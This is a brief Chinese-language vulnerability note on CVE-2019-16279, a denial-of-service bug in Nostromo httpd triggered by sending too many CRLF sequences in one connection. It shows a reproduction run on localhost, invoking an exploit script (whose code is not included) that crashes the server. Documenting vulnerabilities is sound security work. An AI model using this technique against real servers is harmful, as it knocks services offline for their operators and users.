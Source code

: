```yaml
---
title: （CVE-2019-16279）Nostromo httpd dos
id: zhfly3053
---
```


# （CVE-2019-16279）Nostromo httpd dos

## 一、漏洞简介

（CVE-2019-16279）dos

## 二、影响范围

## 三、复现过程

This bug exploit a memory error when sending too many `\r\n` in a single connexion.

Example

```
$ curl http://127.0.0.1:8080
HELLO!
$ ./CVE-2019-16279.sh 127.0.0.1 8080
$ curl http://127.0.0.1:8080
curl: (7) Failed to connect to 127.0.0.1 port 8080: Connection refused 
```